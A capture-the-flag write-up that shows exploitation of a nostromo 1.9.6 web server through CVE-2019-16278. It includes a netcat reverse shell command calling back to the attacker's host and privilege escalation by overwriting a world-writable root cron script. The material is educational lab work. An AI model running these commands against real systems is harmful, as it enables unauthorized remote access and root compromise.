

# My First Blog



> Here is a link to my new blog! I read about a bunch of exploits in common server side blog tools so I just decided to make my website static. Hopefully that should keep it secure.
>
> Root owns the flag.
>
> http://172.30.0.2/

# Reconnaissance

Let's take a look at the reponse for `GET /` (by going to the URL in the description) in Burp:
```html
HTTP/1.1 200 OK
Date: Mon, 23 Mar 2020 07:53:35 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Sat, 21 Mar 2020 23:05:22 GMT
Content-Length: 3682
Content-Type: text/html

<!DOCTYPE html>
<html lang="en">

<head>
    <meta name="generator" content="Hugo 0.54.0" />
        
        <meta charset="utf-8">
<!-- truncated for writeup -->
```

We see a webserver called `nostromo` and it's version number: `1.9.6`. If you Google `nostromo 1.9.6 vulnerability`, you'll find [this Exploit DB entry](https://www.exploit-db.com/exploits/47837) for CVE-2019-16278, a RCE (remote code execution) vulnerability in `nostromo`.

# Initial Compromise

Using the RCE script mentioned previously, we can setup a reverse shell via `nc` and connect to the box:

```
# in one window
$ ./cve2019_16278.py 172.30.0.2 80 'nc -e /bin/bash [ip] 4444

# in another window
$ nc -lvp 4444
listening on [any] 4444 ...
172.30.0.2: inverse host lookup failed: Unknown host
connect to [ip] from (UNKNOWN) [172.30.0.2] 59234
id
uid=1000(webserver) gid=1000(webserver) groups=1000(webserver)
```

Great! We have a shell as the `webserver` user. Unfortunately, we need to get to root in order to get the flag.

# Privilege Escalation

One of the first things I look for when doing privilege escalation on HackTheBox is a vulnerable crontab entry, so let's take a look at the cronjobs on the system:
```
$ cat /etc/*cron*
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/bin/healthcheck
```

The entry `* * * * * root /usr/bin/healthcheck` catches my eye, let's see what that file is:

```
$ ls -al /usr/bin/healthcheck
-rwxrwxrwx 1 root root 24 Mar 23 07:44 /usr/bin/healthcheck
$ cat /usr/bin/healthcheck
#!/bin/bash
nc -z localhost 80
if [ $? == 1 ]; then
        echo "nhttpd is dead, restarting."
        nhttpd
fi
```

Yay, it's world writable! We can write our own shell script to the file and then cron will execute it!

Since I didn't know the exact path to the flag and each team has their own box, I used the following script:

```
cat /root/* > /tmp/flag
```

If we write that to `/usr/bin/healthcheck`, we should get the flag!

```
$ echo "cat /root/* > /tmp/flag" > /usr/bin/healthcheck
# wait a little while
$ cat /tmp/flag
gigem{l1m17_y0ur_p3rm15510n5}
```